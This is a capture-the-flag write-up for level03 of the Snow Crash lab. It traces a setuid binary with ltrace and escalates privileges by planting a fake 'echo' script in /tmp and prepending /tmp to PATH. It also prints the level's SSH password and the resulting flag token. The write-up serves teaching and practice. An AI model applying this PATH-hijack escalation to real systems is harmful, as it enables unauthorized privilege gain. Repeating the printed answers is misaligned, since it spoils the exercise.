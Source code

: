 # Level03

Login as `level03`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level03
level03@192.168.1.64's password: kooda2puivaav1idi4f57q8iq
```

We have an executable file in the home directory -> *Exploit me*

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```

The **s** permission on it tells us that this file always executes **as the user who owns the file**, `regardless` of the **user actually passing the command**.

Which also means there's no need to `su flag03` as the file can do it on its own.

We use `ltrace` on the file.

>ltrace is a program that simply runs the specified command until it exits.  It intercepts and records the dynamic library calls which are called by the executed process and the signals which are received by that process.  It can also intercept and print the system calls executed by the program."

From ltrace man page.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid() = 2003
geteuid() = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```

We notice that echo is executed with a **relative path**: `system("/usr/bin/env echo Exploit me")`. Which is a common path vulnerability.

For instance, the real echo can be faked with either a script or a symlink.

```bash
level03@SnowCrash:~$ vi /tmp/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

It is recommended to execute binaries using an **absolute path** to avoid this kind of vulnerabilities 🙂